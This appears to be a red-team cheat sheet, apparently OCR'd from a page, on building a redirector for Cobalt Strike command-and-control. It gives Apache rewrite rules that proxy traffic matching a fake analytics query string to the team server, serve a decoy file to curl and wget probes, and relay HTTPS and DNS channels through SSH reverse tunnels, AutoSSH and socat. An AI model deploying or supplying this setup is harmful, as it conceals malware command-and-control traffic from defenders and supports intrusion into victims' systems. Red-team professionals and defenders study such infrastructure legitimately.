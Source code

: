 ```
RewriteCond %{QUERY_STRING} utmac=UA-220(.*)-2&utmcn=1&utmcs=ISO-8859-1&utmsr=1280x1024&utmsc=32-bit&utmul=en-US
RewriteRule ^.*$ https://localhost:8443%{REQUEST_URI} [P,L]

# if a,b,c,d and using wget or curl, change file to diversion
RewriteCond %{HTTP_USER_AGENT} curl|wget [NC]
RewriteRule ^a|b|c|d$ diversion [PT]

# if file exists on redirector, show that file
RewriteCond /var/www/html/%{REQUEST_URI} -f
RewriteRule ^.*$ %{REQUEST_FILENAME} [L]

# if a,b,c,d and NOT using wget or curl, redirect to CS web server
RewriteCond %{REQUEST_METHOD} GET [NC]
RewriteCond %{REQUEST_URI} a|b|c|d
RewriteRule ^.*$ https://localhost:8443%{REQUEST_URI} [P,L]
```
#### SSH Tunnel
##### HTTPS
on attacker (client),
`scp localhost.crt attacker@[redirector]:/home/attacker/`

on redirector,
`sudo cp localhost.crt /usr/local/share/ca-certificates/`
`sudo update-ca-certificates`
verify with
- should succeed without error: `curl -v https://localhost:8443/r1`
- should fail: `curl -v -k https://[attacker]`

on attacker (server),
`ssh -N -R 8443:localhost:443 attacker@[redirector]`

AutoSSH
on attacker (server),
`nano ~/.ssh/config`
```ssh
Host                 redirector-1
HostName             10.10.0.100
User                 attacker
Port                 22
IdentityFile         /home/attacker/.ssh/id_rsa
RemoteForward        8443 localhost:443
ServerAliveInterval  30
ServerAliveCountMax  3
```
`autossh -M 0 -f -N redirector-1`
##### DNS
on attacker (server),
`ssh -N -R 5353:localhost:5353 attacker@[redirector]`
`sudo socat tcp-listen:5353,reuseaddr,fork udp4-sendto:localhost:53`

on redirector,
`sudo socat udp4-listen:53,reuseaddr,fork tcp:localhost:5353,retry,forever`
